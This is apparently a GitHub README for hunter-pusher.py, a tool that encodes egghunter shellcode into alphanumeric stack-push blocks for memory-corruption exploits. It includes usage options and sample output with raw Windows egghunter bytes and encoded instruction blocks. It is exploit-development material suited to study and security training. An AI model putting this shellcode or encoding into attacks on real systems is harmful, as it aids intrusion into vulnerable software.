 ## hunter-pusher.py
**hunter-pusher.py** is an experimental alphanumeric egghunter encoder. This tool allows the user to generate one of several egghunters listed in Skape's (Matt Miller's) <a href="http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf" target="_blank">paper</a> titled, _Safely Searching Process Virtual Address Space_, with several customization options. These options include user-defined padding bytes, tag, and bad characters to exclude.  

The output is formatted in blocks to represent the manipulation of the **eax** register reproducing four bytes of the chosen egghunter at a time. This egghunter encoding technique is used in situations where the attacker's raw egghunter is corrupted in memory. Details are covered in this Corelan <a href="https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/" target="_blank">article</a> and piggybacked in a personal <a href="https://datkev.github.io/page/building-an-alphanumeric-encoder-part-1" target="_blank">blog post</a>.

Feedback is always welcome.



# Usage
```
usage: hunter-pusher.py [-h] [-b BAD CHARS] [-e #] [-p PAD] [-t TAG]

Alphanumeric egghunter stack pusher

optional arguments:
  -h, --help            show this help message and exit
  -b BAD CHARS, --bad BAD CHARS
                        Bad characters to exclude in payload
                        e.g. '\x00\xb4\xd9'
                        Default: Non-alphanumeric characters
  -e #, --egghunter #   Specific egghunter to encode:
                        0: Windows - SEH - 60 bytes
                        1: Windows - IsBadReadPtr - 40 bytes
                        2: Windows - NtDisplayString - 32 bytes
                        3: Windows - NtAccessCheckAndAuditAlarm - 32 bytes
                        4: Linux - access(2) - 40 bytes
                        5: Linux - access(2) revisited - 36 bytes
                        6: Linux - sigaction(2) - 32 bytes
                        Default: 2
  -p PAD, --pad PAD     Byte to pad egghunter with before encoding
                        e.g. '\x90'
                        Default: \x90
  -t TAG, --tag TAG     Four byte tag that egghunter will search for
                        e.g. 'w00t'
                        Default: w00t
```



# Example

**./hunter-pusher.py -b '\x00\x0a\x0d\xd3\xad\xb3\x3f\xff' -e 1 -p '\x41' -t 'w00t'**

These flags specify the generation of an **IsBadReadPtr** egghunter padded with "\x41", using a tag "w00t".
Bad characters as specified by the user will be excluded from the egghunter and will not appear in the _raw form_ (after blocks are pushed onto the stack).

```
Raw egghunter bytes: 33DB6681CBFF0F436A0853B80D5BE777FFD085C075ECB8773030748BFBAF75E7AF75E4FFE7414141

******BLOCK 0*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x5d\x3d\x3e\x3e
\x2d\x5e\x40\x40\x40
\x2d\x5e\x40\x40\x40
\x50
******BLOCK 1*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x70\x2d\x5e\x55
\x2d\x70\x2e\x5e\x55
\x2d\x71\x2e\x5f\x55
\x50
******BLOCK 2*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x57\x6f\x2d\x5d
\x2d\x57\x70\x2e\x5d
\x2d\x57\x70\x2e\x5e
\x50
******BLOCK 3*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x45\x45\x2e\x26
\x2d\x45\x45\x2e\x27
\x2d\x46\x45\x2f\x27
\x50
******BLOCK 4*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x2e\x5b\x6c\x2d
\x2d\x2e\x5c\x6d\x2d
\x2d\x2f\x5c\x6d\x2d
\x50
******BLOCK 5*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x55\x64\x28\x6a
\x2d\x56\x65\x28\x6a
\x2d\x56\x65\x29\x6b
\x50
******BLOCK 6*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x51\x36\x5d\x2d
\x2d\x51\x37\x5d\x2d
\x2d\x51\x37\x5e\x2d
\x50
******BLOCK 7*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x32\x52\x39\x6d
\x2d\x32\x52\x39\x6d
\x2d\x32\x53\x3a\x6d
\x50
******BLOCK 8*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x67\x55\x4f\x3e
\x2d\x67\x55\x50\x3e
\x2d\x67\x55\x50\x40
\x50
******BLOCK 9*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x44\x61\x32\x2a
\x2d\x44\x61\x33\x2a
\x2d\x45\x62\x33\x2a
\x50
```



# Credits
This tool uses a Python translation of <a href="https://github.com/gap-system/gap/blob/master/lib/combinat.gi" target="_blank">combinat.gi</a> from <a href="https://www.gap-system.org/index.html" target="_blank">GAP</a>, an open-source system for computational discrete algebra used in research and teaching.



# Creation Process
The creation of **hunter-pusher.pyi** is documented in the Building an Alphanumeric Encoder series at: <a href="https://datkev.github.io" target="_blank">https://datkev.github.io</a>
<a href="https://datkev.github.io" target="_blank">https://datkev.github.io/page/building-an-alphanumeric-encoder-part-3</a> of the series is dedicated to code logic.
